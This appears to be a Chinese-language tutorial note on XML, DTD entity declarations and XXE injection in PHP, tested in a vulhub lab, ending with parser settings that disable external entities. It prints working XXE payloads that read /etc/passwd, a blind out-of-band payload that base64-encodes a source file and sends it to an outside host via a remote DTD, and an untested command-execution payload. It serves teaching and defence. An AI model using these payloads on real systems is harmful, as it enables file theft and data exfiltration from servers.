






# XML
更详细的XML介绍 https://blog.csdn.net/com_ma/article/details/73277535
## 个人理解
XML是一种较为通用的数据交互格式，在json出现之前较为流行，近几年逐渐被json所替代。  
XML的格式类似于html，是html的超集。用于标记数据，大多数编程语言也内置了对XML的处理  
  
## XML格式
主要由**XML声明**、**文档类型定义(DTD)**、**文档元素**构成
```xml
<?xml version="1.0" ?>  <!--  XML声明 -->

<!DOCTYPE note[			<!-- 文档类型定义 -->
	<!ELEMENT note		(to,from,heading,body)>
	<!ELEMENT to		(#PCDATA)>
	<!ELEMENT from		(#PCDATA)>
	<!ELEMENT heading	(#PCDATA)>
	<!ELEMENT body		(#PCDATA)>
]>

<note> 					<!--  文档元素 -->
<to>beijing</to>
<from>zhejiang</from>
<heading>race</heading>
<body>testbody</body>
</note>
```
> DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用。


## DTD实体声明
### 内部实体声明
```xml
<!ENTITY 实体名称 "实体的值">
```
声明过的值可以在怨怒是文档中用`&name;`的格式获取
```xml
<!DOCTYPE foo [
	<!ENTITY xxe  "sec test" >
]>
<root>
	<name>&xxe;</name>
</root>
```
此处相当于在DTD中定义了xxe的值为 `sec test`, 然后再文档元素中通过`&xxe;`来获取变量的值

  
### 外部实体声明
XXE也叫做XML外部实体注入，正是因为它利用了外部实体引用
```xml
<!ENTITY 实体名称 SYSTEM "URI"> 
```
外部实体引用支持通过协议，来动态的获取值  
例如通过`file://`协议来读取文件内容
```xml
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
	<name>&xxe;</name>
</root>
```

也正是因为这样，XXE的攻击从而就产生了  
不同的语言支持的协议不同，这里盗一张图  


### 参数实体声明
```xml
<!ENTITY % 实体名称 "实体的值">
or
<!ENTITY % 实体名称 SYSTEM "URI">
```
解析实体或者uri，进行xml解析，进而获得其中的变量  
```xml
<!DOCTYPE foo [
	<!ENTITY  % xxe SYSTEM "http://xss.kingkk.com/xxe" >
	%xxe;
]>
<root>
	<name>&evil;</name>
</root>
```
远程服务器的xxe中的内容
```xml
<!ENTITY evil SYSTEM "file:///etc/passwd" >
```
获取其中定义的evil值，并在被攻击机中使用  


`file:///etc/passwd`会在最后的被攻击机中解析，所以获得的是被攻击机的passwd，远程服务器相当于只是提供一个文本  
  
这样也相当于
```xml
<!DOCTYPE foo [
	<!ENTITY  % xxe "<!ENTITY evil SYSTEM 'file:///etc/passwd'>" >
	%xxe;
]>
<root>
	<name>&evil;</name>
</root>
```

  
### 公共实体声明
不是很常用，了解一下即可
```xml
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```


# 漏洞环境
还是用p师傅的vulhub，不然自己编译低版本xml可能要死过去 https://github.com/vulhub/vulhub/tree/master/php/php_xxe
- php 7.0.30
- apache2
- libxml 2.8.0
XXE漏洞于php版本无关，主要是libxml的拓展。2.9以后默认不使用外部实体，导致php的xxe几乎消亡  

其中主要由三个文件，也分别对应着三个处理xml的函数，都可以触发XXE   

SimpleXMLElemnet.php
```php
<?php
$data = file_get_contents('php://input');
$xml = new SimpleXMLElement($data);

echo $xml->name;
```
dom.php
```php
<?php
$data = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($data);

print_r($dom);
```
simplexml_load_string.php
```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;
```

# XXE漏洞利用
## 有回显型
之前讲外部实体时就已经演示过了，利用外部实体，获取文件内容  
然后利用输出就能够任意文件读取
```xml
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
	<name>&xxe;</name>
</root>
```
`echo $xml->name;`就会将解析到的name值，也就是`/etc/passwd`的内容输出来
 

## 无回显
当利用不将对应的值输出来时，该如何进行攻击呢
```php
// echo $xml->name;
```
这时可以借助http协议，将获取到文件内容发送到远程服务器上  
从而获取文件内容
  
事先在远程服务上写入 evil.dtd  （ % 需要实体编码成`&#x25;`
```xml
<!ENTITY &#x25; send SYSTEM 'http://xss.kingkk.com/?%file;'>
```
然后利用如下payload
```xml
<!DOCTYPE foo [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./dom.php">
    <!ENTITY  % xxe SYSTEM "http://xss.kingkk.com/evil.dtd" >
    %xxe;
    %send;
]>
```
先利用php为协议将文件用base64读取出来，然后以参数的形式发送到远程服务器  
即可在服务器的log中看到base64加密后的内容  
 

## ssrf
由于有http协议，就能伪造请求，和ssrf同理，ssrf能做的事，xxe也都可以  
比如什么内网探测，sql注入等。这里就不过多介绍

## 命令执行
需要一个额外的expect拓展，需要额外安装  
```xml
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "except://ls">
]>
 &f;
```
没有实际测试过


# 防御XXE
最简单也最彻底的防御就是禁用外部实体  
php
```php
libxml_disable_entity_loader(true);
```
java
```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```
python
```py
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

过滤关键字的方法感觉有点傻，吃力不讨好


# Reference Link
https://github.com/vulhub/vulhub/tree/master/php/php_xxe
https://blog.csdn.net/com_ma/article/details/73277535
http://www.freebuf.com/column/156863.html
https://security.tencent.com/index.php/blog/msg/69
https://www.jianshu.com/p/7325b2ef8fc9